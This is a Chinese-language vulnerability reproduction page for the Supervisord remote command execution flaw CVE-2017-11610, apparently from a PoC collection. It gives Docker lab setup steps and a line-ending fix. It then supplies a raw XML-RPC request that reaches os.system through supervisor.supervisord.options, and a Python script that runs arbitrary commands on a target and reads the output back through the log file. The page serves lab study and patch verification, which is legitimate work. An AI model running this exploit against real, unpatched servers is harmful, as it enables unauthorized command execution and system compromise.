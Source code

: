 # Supervisord 远程命令执行漏洞 CVE-2017-11610

## 漏洞描述

Supervisord是一款Python开发，用于管理后台应用（服务）的工具，其角色类似于Linux自带的Systemd。

参考链接：

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 环境搭建

Vulhub执行以下命令启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

**启动时遇到错误exec user process caused "no such file or directory"的解决方法 **

可能遇到如下错误：

![image-20220302143005976](./images/202203021430024.png)

错误原因：

`docker-entrypoint.sh`中最后一行的结束符成了`\r\n` 导致Docker镜像中的Linux Shell脚本文件无法执行。Linux/Mac的结束符是`\n`，所以Shell解释器会将脚本文件中的`\r`作为命令行的一部分来执行。这就是出现 “no such file or directory” 的原因。

解决方式：

通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

## 漏洞复现

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: your-ip:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/awesome_poc</string>
</param>
</params>
</methodCall>
```

![image-20220302143654919](./images/202203021436012.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220302143616511](./images/202203021436578.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![image-20220302144156140](./images/202203021441167.png)

